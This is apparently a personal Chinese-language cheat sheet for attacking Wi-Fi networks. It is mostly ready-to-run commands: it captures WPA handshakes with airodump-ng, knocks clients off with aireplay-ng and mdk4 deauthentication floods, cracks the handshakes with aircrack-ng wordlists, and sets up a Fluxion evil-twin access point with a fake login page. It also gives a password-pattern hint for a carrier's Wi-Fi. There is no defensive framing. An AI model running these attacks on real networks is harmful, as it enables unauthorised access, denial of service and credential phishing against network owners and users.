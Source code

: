 [Link](https://www.mzbky.com/106.html)

被动方式
```sh
# 不报错可用
modprobe -nv rt2800usb

lsusb # 看有没有显示
ifconfig # 查看 wlan0 无线网卡
airmon-ng # 查看是否支持监听模式 显示wlan0 支持
airmon-ng check kill # 可能需要 ifconfig eth0 down 关闭其他 eth
airmon-ng start wlan0 # 开启监听

airodump-ng wlan0  # 扫描 wifi 2.4G
airodump-ng -C 5180-5885 wlan0mon # 扫5G
airodump-ng -C 5765 wlan0mon
## iw list  # 检查支持的频段 网卡不支持5G频段，就无法搜索到5GHz信号

# BSSID             PWR   Beacons	CH  # CH wifi频段11
# 60:32:B1:56:3F:B2 -32   24      11
# BSSID              STATTION
# 60:32:B1:56:3F:B2  CC:08:FB:DD:42:18

# 只用此方式抓包较慢
airodump-ng -c 11 --bssid 60:32:B1:56:3F:B2 -w /home/kali/tmp/handshake wlan0
airodump-ng -c 153 wlan0 # 路由器看了下我的WIFI5信道是153 5G, 是可以抓到的

# 第一行 CH  9 ][ Elapsed: 27 s ][ 2023-01-14 22:40 ][ WPA handshake: 34:36:54:D8:1F:A9 # 显示 handshake 为攻击成功, 这时Ctrl+C退出命令
```

ACK方式
```sh
# 方式1 上面的不要关闭 执行下面
## 针对所有客户端
aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 wlan0
## 针对指定客户端
aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c CC:08:FB:DD:42:18 wlan0
# 方式2 停止扫描， 执行攻击， 马上开启扫描。
# -0: 通知设备断开连接 10: 攻击次数 -a:目标bssid -c: 目标踢下线的设备
```

aircrack-ng -w ~/password.txt -b ~/handshake-01.cap


## 钓鱼 fluxion
https://github.com/FluxionNetwork/fluxion

```sh
./fluxion.sh -i

# 2.Handshake Snooper 检索WPA/WPA2加密散列。
# 3.扫描所有信道 （2.4G和5G),  绿色是正在有人在连接且扫描到的。白色不确定是否有连接。
# 选wifi，显示026直接输入26回车
# 2.重置攻击
# 2.aireplay-ng 解除认证方式
# hash 验证方法: cowpatty

# 返回
# 1 创建一个邪恶的双胞胎接入点
# 1 创建SSL证书
# 2 仿真（断开原网络的选项 需要测试，不确定效果）
# 认证页面 选3中文。 (如果确认对方路由器也可选别的)
```

## 8812AU网卡使用 5G攻击
```sh
#MDK4攻击：
iwconfig wlan0 mode monitor
airmon-ng check kill
airmon-ng start wlan0
airodump-ng -C 5180-5885 wlan0
# -C <freq>[,<freq>[,...]]

airodump-ng -w fhfgd -c 信道 --bssid MAC地址 wlan0

#再打开一个终端
mdk4 wlan0 d -B MAC地址
mdk4 wlan0 d -c 36,40,44,48,149,153,157,161,165
```

## Dictionary

天翼wifi:8位数字密码，例如 xx4yyykw


## Article
[零度WIFI安全测试](https://www.youtube.com/watch?v=_9q9Cl555wg)
## Tools
Elcomsoft Wireless Security Auditor